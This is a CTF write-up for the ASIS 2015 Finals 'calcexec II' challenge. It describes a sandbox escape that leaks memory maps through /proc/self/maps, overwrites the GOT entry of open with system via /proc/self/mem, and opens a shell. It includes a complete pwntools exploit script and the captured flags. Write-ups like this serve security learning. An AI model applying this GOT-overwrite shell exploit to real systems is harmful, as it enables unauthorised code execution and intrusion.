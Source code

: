 ```yaml
---
layout: post
title: "ASIS 2015 Finals: calcexec II"
modified: 2015-10-14
tags: asis asis2015finals .net mono pwn
---
```


The second part of the challenge uses an already known technique to break out from "sandboxes".

Namely: overwriting the contents of the /proc/self/mem. This is possible because the calculator contains two methods: READ and WRITE with which we can read and write arbitrary files. (Note: I tried to read "flag2", but unfortunately it did not exist... :))

So I leaked the memory mappings with reading the /proc/self/maps file. Then I overwrote the "open" call's GOT entry to system. And simply called the READ call again with /bin/sh which instead of opening the file, opened a shell for me (btw I tried to call "sh" first, but it turned out it calls a stat function first, and "sh" did not work, but "/bin/sh" did the trick).

Also there were some character encoding problem (it probably tried to interpret the binary input as UTF8 characters), so I only overwrote 3 bytes instead of the full address and the exploit is not reliable: only works if ASLR gives an address with characters which are lower than 0x80.

After calling an "ls" it turned out the flag was in the flag2-03dae19b720939043d87fbf67342c2e8.txt file.

{% highlight text %}
And the flag was: ASIS{9009eeab9869a8098acd7bb19f079230}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re
from time import sleep

for i in xrange(10):
    print "Try #%d" % (i + 1)
    p = remote('185.82.202.146', 1337)
    #p = process('./start.sh', shell=True)
    p.recvline()
    p.recvline()

    p.send('authenticate\n')
    p.send(open('fakeCa.crt').read()+'\n')

    p.send('authenticate\n')
    p.send(open('fakeUserCert.crt').read()+'\n')

    p.send('flag\n')
    p.recvuntil('> ')
    print '[!] FLAG 1 = %s' % p.recvline().strip()

    p.send('read("/proc/self/maps",0,20000)\n')
    p.recvuntil('> ')
    maps = p.recvuntil('\x00')
    p.recvuntil('\n\n')
    #print "maps =", maps

    libcBase = int(re.search('([a-z0-9]+).*?libc-2.19.so', maps).group(1), 16)
    libThreadBase = int(re.search('([a-z0-9]+).*?libpthread-2.19.so', maps).group(1), 16)
    print "libThread base = 0x%016x" % libThreadBase

    systemLocal = 0x7ffff74ba230
    libThreadBaseLocal = 0x7ffff74aa000
    openGotAddr = 0x9776C8

    system = libThreadBase - libThreadBaseLocal + systemLocal
    print "system = 0x%016x" % system

    systemChars = p64(system)[0:3]
    if ord(systemChars[0]) >= 128 or ord(systemChars[1]) >= 128 or ord(systemChars[2]) >= 128:
        print "Exploit won't work, restarting..."
        p.close()
        continue
        
    p.send('write("/proc/self/mem",'+str(openGotAddr)+',"'+systemChars+'")\nread("/bin/sh",0,1)\n')
    p.recvline()
    p.recvline()

    time.sleep(0.4)
    p.send('ls && echo LSEND\n')
    print "ls result = %s" % p.recvuntil('LSEND\n').replace('LSEND','').replace('\n', ' ').strip()

    p.send('cat flag2-03dae19b720939043d87fbf67342c2e8.txt\n')
    print "[!] FLAG 2 = %s" % p.recvline().strip()

    p.interactive()
    break
{% endhighlight %}